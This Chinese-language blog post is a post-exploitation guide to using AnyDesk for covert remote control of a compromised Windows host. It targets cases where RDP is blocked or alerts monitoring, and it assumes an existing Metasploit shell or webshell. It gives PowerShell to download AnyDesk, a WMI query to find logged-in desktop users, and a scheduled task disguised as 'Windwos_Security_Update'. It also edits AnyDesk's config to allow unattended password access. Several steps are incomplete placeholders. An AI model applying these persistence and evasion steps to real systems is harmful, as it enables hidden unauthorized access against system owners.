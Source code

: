 # 使用anydesk做远控


> anydesk是类似teamviewer的远程管理软件，但是他不用安装且体积小



### 场景举例

- 有云锁，护卫神等禁止3389登录时
- 类似阿里云这种，登录3389会报警
- 连接内网中可以出网的windows机器



### 注意事项

- 启动anydesk的权限需要桌面用户权限，比如，IIS做中间件的环境中，拿到了webshell一般都
  是没有桌面用户权限的，如果启动anydesk不会成功
- 启动anydesk时桌面不能被注销
- 有可能连接上去是黑屏，这个是因为该桌面用户退出远程桌面但没有注销，此时，除非能用
  winlogon启动anydesk，否则没法使用屏幕





### 使用方法

1. 习惯性的使用https://www.virustotal.com/gui扫描一下

2. 假设获取到了目标系统的一个msf的shell

   ```bash
   # 下载anydesk到一个公共目录下
   (New-Object System.Net.WebClient).DownloadFile("https://download.anydesk.com/AnyDesk.exe?_ga=2.176752485.1141763109.1599703967-925913843.1599703967","C:\Users\Public\Desktop\anydesk.exe")
   
   # 确定有哪些用户正在使用桌面???
   (((Get-WmiObject -Class Win32_Process -Filter 'Name="explorer.exe"').GetOwner().))
   
   # 启动一个计划任务，启动的用户为上个步骤选中的用户???
   schtasks /Create /TN Windwos_Security_Update /SC monthly /tr "c:\......"
   
   # 先执行一次计划任务，生成配置文件
   schtasks /run /tn Windwos_Security_Update
   
   # 等待几秒，等anydesk成功连接到网络，再把anydesk进程杀掉，dir看用户下面是否生成配置文件，然后再service.conf里面的添加密码(AnyDeskGetAccess)
   
   
   # 查看anydeskID并启动anydesk
   
   
   # 不需要到目标机器上点击接受，输入密码即可
   
   
   # 分享一个高权限webshell下可以使用的powershell脚本
   
   ```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/image-20200910104429278.png" ></img>

   

















































---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E4%BD%BF%E7%94%A8anydesk%E5%81%9A%E8%BF%9C%E6%8E%A7/  


